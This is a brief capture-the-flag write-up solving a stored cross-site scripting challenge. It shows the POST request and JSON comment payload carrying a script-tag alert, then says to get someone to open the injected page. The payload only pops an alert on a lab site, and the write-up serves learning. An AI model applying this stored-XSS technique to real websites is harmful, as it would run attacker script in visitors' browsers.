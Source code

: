 # Challenge

Inject an alert("Wizer")

# Solution

This one was rather simple. It is a stored XSS.

You first need to get a UUID (https://www.uuidgenerator.net/version4) then make a comment with your payload using that UUID.

Send a `POST` request to `https://chal45-h8f5i.vercel.app/comment?sid=<YOUR_UUID_HERE>` with the following payload:

```
{
  "sid": "<YOUR_UUID_HERE>",
  "content": "<script>alert(\"Wizer\")</script>"
}
```

Then just get someone to visit the URL in a browser: `https://chal45-h8f5i.vercel.app/?sid=<YOUR_UUID_HERE>` (which is also the payload needed to pass the challenge)..